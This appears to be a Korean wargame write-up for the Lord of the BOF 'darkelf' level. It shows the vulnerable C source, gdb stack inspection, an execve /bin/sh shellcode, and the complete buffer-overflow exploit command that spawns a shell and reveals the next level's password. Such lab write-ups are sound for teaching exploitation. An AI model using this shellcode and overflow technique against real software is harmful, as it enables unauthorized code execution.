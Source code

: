 ```yaml
---
layout: post
title: "Hackerschool LOB-wolfman"
categories: [Hackerschool-LOB]
tags: [pwnable]
redirect_from:
 - /2019/07/30/
---
```

```bash
login: wolfman
Password:
[wolfman@localhost wolfman]$ ls
darkelf  darkelf.c  tmp
[wolfman@localhost wolfman]$ cat darkelf.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - darkelf
        - egghunter + buffer hunter + check length of argv[1]
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```
wolfman/love eyuna로 접속하자.

C 프로그램을 인좌를 주며 실행시키면 순서대로 argv[1],argc[2] 이렇게 들어간다.

소스에는 argv[1]에 길이 제한을 최대 48까지 걸어두었다.

그렇다면 RET까지 거리는 딱 되므로 argv[1]에 RET까지, argv[2]에 쉘 코드를 넣자.

argv[2]가 시작하는 주소를 구하자.
```bash
[wolfman@localhost wolfman]$ mkdir tmp
[wolfman@localhost wolfman]$ cp darkelf tmp/
[wolfman@localhost wolfman]$ cd tmp
[wolfman@localhost tmp]$ gdb -q darkelf
(gdb) disas main
Dump of assembler code for function main:
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %esp,%ebp
0x8048503 <main+3>:     sub    $0x2c,%esp
...
0x80485ec <main+236>:   push   %eax
0x80485ed <main+237>:   call   0x8048440 <strcpy>
0x80485f2 <main+242>:   add    $0x8,%esp
0x80485f5 <main+245>:   lea    0xffffffd8(%ebp),%eax
```
main+237에서 strcpy하는 것이 보인다.

그 밑줄, main+242에 break를 걸고 돌리자.

```bash
(gdb) r $(python -c 'print"\xbf"*48') $(python -c 'print"A"*100')
Starting program: /home/wolfman/tmp/darkelf $(python -c 'print"\xbf"*48') $(python -c 'print"A"*100')
Breakpoint 1, 0x80485f2 in main ()

```
인좌를 여러개 주는 방법은 간단하다.

그냥 python 코드를 두개 쓰자.
```bash
(gdb) x/300x $esp
0xbffffa44:     0xbffffa50      0xbffffbd1      0x00000015      0xbfbfbfbf
0xbffffa54:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffa64:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
...
0xbffffbe4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf
0xbffffbf4:     0xbfbfbfbf      0xbfbfbfbf      0xbfbfbfbf      0x414100bf
0xbffffc04:     0x41414141      0x41414141      0x41414141      0x41414141
```
저 밑에서 bf와 A가 있는 것이 보인다.

쉘 코드가 들어갈 위치에 A를 넣은 것이므로, RET주소는 bffffc04로 잡자.

페이로드 형식은 nop(44)+RET,nop(100)+쉘 코드.

사용할 24byte짜리 쉘 코드다.
```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
```bash
[wolfman@localhost wolfman]$ ./darkelf $(python -c 'print"\x90"*44+"\x04\xfc\xff\xbf"') $(python -c 'print"\x90"*100+"\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"')
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱??
bash$ my-pass
euid = 506
kernel crashed
```
성공했다.
wolfman's password : "kernel crashed"



